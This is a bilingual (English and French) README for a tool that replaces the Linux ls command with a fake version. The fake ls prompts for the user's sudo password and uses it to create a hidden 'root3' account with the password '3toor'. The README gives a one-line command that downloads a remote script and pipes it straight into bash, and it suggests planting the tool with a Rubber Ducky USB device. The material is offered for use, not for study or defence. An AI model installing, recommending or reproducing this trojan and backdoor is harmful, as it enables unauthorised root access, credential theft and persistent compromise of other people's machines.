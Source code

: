 # fake-ls_privilege-escalation-linux

COMMAND TO INSTALL VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Replacing the linux LS command for privilege elevation.

You have access to a ROOT session but you don't know the password to run useful commands ?
Run this script on a laptop (a ruber ducky usb key can help) and the LS command will be replaced by a fake LS command. When running LS, it will ask for the sudo password of the user and create with these rights a new user named "root3" with the password "3toor".
the LS command is displayed normally after that

command test if is ok : getent passwd root3

## ---FR---

COMMANDE POUR INSTALLER VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Remplacement de la commande linux LS pour une élévation de privilège.

Vous avez avec un accès sur une session ROOT mais vous ne connaissez pas le mot de pass pour lancer des commandes utiles ?
Lancer ce script sur un pc (une cle usb ruber ducky peut aider) et la commande LS sera remplacer par une fausse commande LS. À l'exécution de LS, cela demandera le mot de pass sudo de l'utilisateur et créer avec ces droits un nouvel utilisateur nommés "root3" avec le mot de pass "3toor"
la commande LS s'affiche normalement après cela


ubuntu 20 ans 22 ok